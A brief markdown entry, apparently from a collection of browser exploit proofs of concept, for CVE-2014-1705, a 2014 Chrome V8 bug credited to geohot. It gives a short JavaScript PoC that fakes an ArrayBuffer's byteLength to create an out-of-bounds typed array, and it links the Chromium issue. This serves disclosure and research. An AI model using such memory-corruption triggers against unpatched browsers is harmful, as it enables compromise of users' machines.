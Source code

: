 # CVE-2014-1705

- Date: Mar 2014
- Credit: geohot

## PoC

```javascript
var ab = new ArrayBuffer(8);
ab.__defineGetter__("byteLength", function() { return 0xFFFFFFFC; });
var aaa = new Uint32Array(ab);
// aaa[0x1234567] = 1;
```

## Reference

- [Issue](https://bugs.chromium.org/p/chromium/issues/detail?id=351787)
